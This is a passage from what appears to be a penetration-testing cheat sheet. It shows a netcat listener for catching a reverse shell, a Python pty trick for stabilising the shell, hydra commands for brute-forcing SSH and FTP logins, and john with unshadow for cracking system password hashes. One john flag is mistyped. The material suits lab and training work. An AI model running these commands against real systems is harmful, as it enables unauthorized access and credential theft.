 ```console
$ nc -nvlp 4444
```

#### Stabilise a Shell

Spawn an interactive terminal via Python:

```console
# First check if the system has Python
$ which python
/usr/bin/python

# Then, spawn a Python shell using pty
$ python -c "import pty; pty.spawn('/bin/bash')"

# Finally, export XTERM (allows you to clear terminal)
$ export TERM=xterm
```

**NOTE**: this works the same with `python3`.

## Bruteforcing

### `hydra`

```console
$ hydra -L <LIST OF USERNAMES> -P <LIST OF PASSWORDS> <TARGET> <SERVICE> -s <PORT>

OR

$ hydra -l <USERNAME> -P <LIST OF PASSWORDS> -t <TARGET> <SERVICE> -s <PORT>
```

```console
# Bruteforce SSH
$ hydra -L users.txt -P pass.txt 10.10.10.2 ssh -s 22 
$ hydra -L users.txt -P pass.txt ssh://10.10.10.2

# Bruteforce FTP
$ hydra -l admin -P passwords.txt 192.168.1.4 ftp -s 21
$ hydra -l admin -P passwords.txt ftp://192.168.1.4
```

### John The Ripper (`john`)

First, prepare a file for `john` to crack:

```console
$ unshadow passwd shadow > hash
```

Crack the passwords:

```console
$ john --wordlist-/usr/share/wordlists/rockyou.txt hash
```

## Other cheatsheets:

- Hydra: https://github.com/frizb/Hydra-Cheatsheet
- GTFOBins: https://gtfobins.github.io/
